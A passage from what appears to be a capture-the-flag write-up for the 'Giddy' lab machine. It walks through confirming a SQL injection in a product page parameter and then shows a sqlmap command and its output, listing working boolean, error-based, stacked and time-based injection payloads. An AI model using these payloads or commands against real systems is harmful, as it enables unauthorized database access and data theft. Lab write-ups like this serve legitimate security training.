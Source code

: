 We can confirm this by trying to select a correctly balanced string value and see what happens:

![230719530.png]({{site.baseurl}}/Images/Giddy/230719530.png)

Again the exception message confirms our suspicions and we can update our payload by simply removing the quote character:

![230817829.png]({{site.baseurl}}/Images/Giddy/230817829.png)

This time we can see that instead of returning only the 3 results for id 18, we get all 504 products from the database, confirming that we have a SQL Injection vulnerability.

Now that we have confirmed that there is a SQL Injection vulnerability, we spent some time figuring out how many columns were required to perform UNION injection in order to display content on the page (spoiler its 25), we get some basic information, including enumerating users (see below) but there is nothing of note in the database contents so we opted to use the tool SQLMap to make things quicker and easier:
```
root@kali: sqlmap -u https://10.10.10.104/mvc/Product.aspx\?ProductSubCategoryId\=18 --batch --tables --exclude-sysdbs
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.3.2#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:10:34 /2019-01-09/

[12:10:34] [INFO] resuming back-end DBMS 'microsoft sql server' 
[12:10:34] [INFO] testing connection to the target URL
...
sqlmap identified the following injection point(s) with a total of 89 HTTP(s) requests:
---
Parameter: ProductSubCategoryId (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ProductSubCategoryId=18 AND 3409=3409

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: ProductSubCategoryId=18 AND 3738 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(107)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (3738=3738) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(118)+CHAR(112)+CHAR(113)))

    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: ProductSubCategoryId=(SELECT CHAR(113)+CHAR(122)+CHAR(107)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (4992=4992) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(118)+CHAR(112)+CHAR(113))

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: ProductSubCategoryId=18;WAITFOR DELAY '0:0:5'--

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: ProductSubCategoryId=18 WAITFOR DELAY '0:0:5'
---
...
Database: Injection
```